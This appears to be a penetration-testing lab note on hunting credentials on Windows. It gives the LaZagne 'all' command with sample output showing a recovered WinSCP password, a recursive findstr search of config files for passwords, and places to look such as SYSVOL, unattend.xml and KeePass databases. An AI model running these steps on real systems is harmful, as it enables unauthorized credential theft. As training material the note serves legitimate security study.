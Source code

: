 # Credential Hunting on Windows

## Key Terms to Search


1. Passwords
1. Passphrases
1. Keys
1. Username
1. User account
1. Creds
1. Users
1. Passkeys
1. Passphrases
1. configuration
1. dbcredential
1. dbpassword
1. pwd	Login
1. Credentials

## Using LaZagne

```powershell
C:\Users\xxx\Desktop> start lazagne.exe all
```

### LaZagne Output
```powershell
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: xxx ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

## Using findstr
```powershell
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

# Here are some other places we should keep in mind when credential hunting:

1. Passwords in Group Policy in the SYSVOL share
1. Passwords in scripts in the SYSVOL share
1. Password in scripts on IT shares
1. Passwords in web.config files on dev machines and IT shares unattend.xml
1. Passwords in the AD user or computer description fields
1. KeePass databases --> pull hash, crack and get loads of access.
1. Found on user systems and shares
1. Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

